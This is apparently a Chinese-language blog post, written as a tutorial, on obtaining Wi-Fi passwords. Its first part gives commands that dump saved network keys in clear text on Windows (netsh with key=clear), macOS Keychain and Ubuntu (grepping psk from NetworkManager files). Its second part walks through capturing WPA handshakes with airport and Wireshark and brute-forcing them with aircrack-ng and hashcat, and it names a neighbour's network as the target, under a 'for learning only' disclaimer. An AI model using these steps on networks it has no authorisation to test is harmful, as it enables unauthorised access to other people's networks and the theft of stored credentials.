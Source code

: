 ```yaml
---
title: 获取 WI-FI 密码
author: Von
tags: ['System', 'Wifi', 'TCP/IP', 'HTTP']
featuredImage: bg2.jpeg
date: 2019-11-18
---
```

<!-- toc -->

_如何获取你知道/不知道的 wifi 密码_

> 本文仅限于学习，请勿用于非法用途 否则后果作者概不负责

## 获取链接过的 wifi 密码
### Windows:

管理员运行：
```shell
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```

还有一种方法：可以获取指定名称的wifi信息
step 1:获取所有链接过的wifi名称

```shell
netsh wlan show profile
```
step 2:指定wifi名称获取相关信息( 下面代码中wifi_name 是step 1 中列出的名称 )

```shell
netsh wlan show profile wifi_name key=clear
```

### Mac

打开 `keychain` 钥匙串
选择 系统，种类：密码
通过Wi-Fi名字查看密码

### Ubuntu

从配置文件中获取 psk 的值
```shell
$ sudo grep psk= /etc/NetworkManager/system-connections/*
```

## 如何获取邻居家 wifi 密码
### 环境准备

- 系统：macOs Mojave 双核8G
- 工具：aircrack-ng; wireshark; hashcat 
- 参考链接：[Louis Abraham's](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)

### 开始

官网下载：[wireshark](https://www.wireshark.org/download.html)

由于原本就有 [homebrew](https://brew.sh/)，不再重述下载过程。
首先下载 [aircrack-ng](https://www.aircrack-ng.org/)，这里用于暴力破解 Wi-Fi 密码
```shell
brew install aircrack-ng
```

[hashcat](https://hashcat.net/hashcat/) 世界上最快的密码破解程序
```shell
brew install hashcat
```

### 用 wireshark 获取 WPA 包

#### WPA 简介
WPA（英语：Wi-Fi Protected Access），意即“Wi-Fi访问保护”，是一种保护无线网络（Wi-Fi）访问安全的技术标准。

#### Mojave 不能使用 airport 抓包

```shell
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport

sudo airport -s
// Ctrl-C to stop capturing after 2-5 minutes
sudo airport en1 sniff $CHANNEL

```
这个方式简单，但是新的系统不支持，只能通过 wireshark 抓包

#### wireshark 抓包

开启监控模式
![](/images/get-wlan-password/wireshark.png)

filter:
```shell
eapol or wlan.fc.type_subtype == 0x08
```

抓取 5分钟 左右，保存.pcap

### 爆破
#### 通过 aircrack-ng 暴力破解密码

```shell
aircrack-ng test.pcap -w 密码字典文件
```

![](/images/get-wlan-password/aircrack.png)

如果有 `WPA (1 handshake)` 则输入前面的编号 `Index number of target network ? 4643`

否则重复上述 wireshark 抓包过程

如果这步成功，成功的关键就在于密码字典，可以在github搜一下，可以找到的字典集我都试过（有上千万的数据了），目前我没有好的可以推荐，因为没有成功破解我邻居的密码:)尬...

#### hashcat 破解

在线转化文件`pcap->hccapx` https://hashcat.net/cap2hccapx/

在我本子上跑温度飙到了 96c 只能放弃


